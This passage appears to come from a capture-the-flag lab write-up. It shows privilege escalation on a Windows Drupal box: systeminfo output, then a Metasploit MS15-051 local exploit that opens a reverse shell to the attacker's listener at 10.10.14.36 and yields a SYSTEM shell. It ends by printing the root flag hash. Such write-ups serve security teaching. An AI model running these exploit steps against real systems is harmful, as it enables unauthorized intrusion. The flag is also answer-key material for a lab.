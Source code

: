 Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.9
C:\Users\Administrator\Desktop>
{% endhighlight %}

This time, "MS15-051" was used to get a SYSTEM shell.
{% highlight shell %}
msf5 exploit(multi/handler) > use exploit/windows/local/ms15_051_client_copy_image 

msf5 exploit(windows/local/ms15_051_client_copy_image) > set session 1
session => 1

msf5 exploit(windows/local/ms15_051_client_copy_image) > set target 1
target => 1

msf5 exploit(windows/local/ms15_051_client_copy_image) > set lhost 10.10.14.36
lhost => 10.10.14.36

msf5 exploit(windows/local/ms15_051_client_copy_image) > run

[*] Started reverse TCP handler on 10.10.14.36:4444 
[*] Launching notepad to host the exploit...
[+] Process 2052 launched.
[*] Reflectively injecting the exploit DLL into 2052...
[*] Injecting exploit into 2052...
[*] Exploit injected. Injecting payload into 2052...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Command shell session 2 opened (10.10.14.36:4444 -> 10.10.10.9:49182) at 2020-01-11 01:17:57 +0200

whoami
whoami
nt authority\system

C:\inetpub\drupal-7.54>
{% endhighlight %}

root.txt is in the directory "C:\Users\Administrator\Desktop".
{% highlight shell %}
C:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
4bf12b963da1b30cc93496f617f7ba7c

C:\Users\Administrator\Desktop>
{% endhighlight %}
